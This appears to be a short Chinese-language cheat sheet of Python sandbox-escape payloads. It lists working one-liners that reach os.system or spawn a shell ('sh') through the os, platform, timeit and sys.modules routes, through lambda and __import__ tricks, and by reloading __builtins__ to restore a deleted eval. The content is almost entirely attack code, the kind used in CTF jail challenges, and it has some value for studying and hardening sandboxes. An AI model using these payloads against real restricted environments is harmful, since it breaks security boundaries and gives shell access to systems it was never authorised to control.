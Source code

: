 ### 模块

```python
#os
import os
os.system('dir')
os.popen('dir').read()

#platform
import platform
platform.popen('dir').read()
platform.os.system('dir')

#timeit
import timeit
timeit.timeit("__import__('os').system('dir')")

#sys
from sys import modules
modules['os'].system('sh')
modules['posix'].system('sh')

sys._getframe().f_locals.values()
```

### lambda表达式

```python
__import__('os').system('sh')
__builtins__.__dict__['__import__']('os').system('sh')
(lambda: __import__('os').system('sh'))()
(__builtins__:=__import__('os'))and(lambda:system)()('sh')
```

### reload 重新加载

重新加载模块，绕过删除模块或方法

```python
>>> __builtins__.__dict__['eval']
<built-in function eval>
>>> del __builtins__.__dict__['eval']
>>> __builtins__.__dict__['eval']
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
KeyError: 'eval'

>>> reload(__builtins__)
<module '__builtin__' (built-in)>
>>> __builtins__.__dict__['eval']
<built-in function eval>
```
